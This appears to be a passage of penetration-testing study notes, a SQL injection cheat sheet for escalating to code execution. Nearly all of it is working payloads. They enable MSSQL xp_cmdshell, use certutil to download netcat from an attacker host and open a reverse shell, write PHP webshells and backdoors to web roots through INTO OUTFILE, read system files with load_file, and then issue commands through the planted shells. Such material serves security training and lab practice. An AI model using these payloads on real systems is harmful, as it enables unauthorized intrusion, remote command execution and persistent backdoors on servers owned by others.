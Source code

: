 ```sql
-- Configure xp_cmdshell to work
';EXEC sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXEC sp_configure "xp_cmdshell", 1;--
';RECONFIGURE;--

-- Download nc.exe to target maching & run
';EXEC xp_cmdshell "certutil -urlcache -f http://<kali_ip>/nc.exe c:/windows/temp/nc.exe";-- '
';EXEC xp_cmdshell "c:/windows/temp/nc.exe <kali_ip> 4444 -e cmd.exe";--
```


## SELECT INTO_OUTFILE
- Various MySQL db variants don't offere a single function to escalate to RCE, we can abuse the *SELECT INTO_OUTFILE* statement to write files on the web server

##### Write a webshell on disk
- Requires the file location to be writable to the OS user running the DB software
```sql
-- Assumes 5 columns
-- Prepend '
UNION SELECT null, "<?php system($_GET['cmd']);?>", null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php"-- //
```
- May return an "Uncaught TypeError" which relates to the return type and not necessarily to the writing of the file to disk

To confirm success
```bash
# In URL
192.168.50.19/tmp/webshell.php?cmd=id
```
- Assuming **id** output is returned through the web browser, we know the webshell is working as expected.


### More 
Can use [load_file](https://www.exploit-db.com/papers/14635) and _Into OUTFILE_ functions to read from/ write to a file on the underlying OS.  
  
Read from hosts file:  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
 
Writing a PHP backdoor to the web server:  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```


If the above works, we can access the backdoor:  
```null
http://192.168.xxx.10/backdoor.php?cmd=ipconfig
```  
  